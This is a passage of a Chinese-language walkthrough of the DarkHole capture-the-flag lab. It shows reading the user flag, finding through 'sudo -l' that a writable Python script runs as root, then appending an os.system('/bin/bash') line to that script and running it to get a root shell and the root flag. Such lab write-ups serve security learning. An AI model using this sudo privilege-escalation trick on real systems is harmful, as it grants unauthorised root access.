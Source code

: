     - `file.py`是空的
        
        ```python
        ohn@darkhole:~$ cat file.py 
        
        ```
        
    - `user.txt` 一个`flag`
        
        ```python
        john@darkhole:~$ cat user.txt 
        DarkHole{You_Can_DO_It}
        ```
        
7. 寻找利用点
    - 查看`sudo`权限
        
        ```python
        john@darkhole:~$ sudo -l
        [sudo] password for john: 
        Matching Defaults entries for john on darkhole:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User john may run the following commands on darkhole:
            (root) /usr/bin/python3 /home/john/file.py
        ```
        
        可以使用`root`权限执行`file.py`文件，哦豁，可以提权了
        
    - 编辑`file.py`文件，将提权语句写入`file.py`
        
        ```python
        ehco "import os;os.system('/bin/bash');" >> file.py
        ```
        
    - 使用`sudo`权限执行
        
        ```python
        john@darkhole:~$ sudo /usr/bin/python3 /home/john/file.py 
        root@darkhole:
        ```
        
        获得root！！！
        
8. 读取`flag`文件
    
    ```python
    root@darkhole:~# cat root.txt 
    DarkHole{You_Are_Legend}
    ```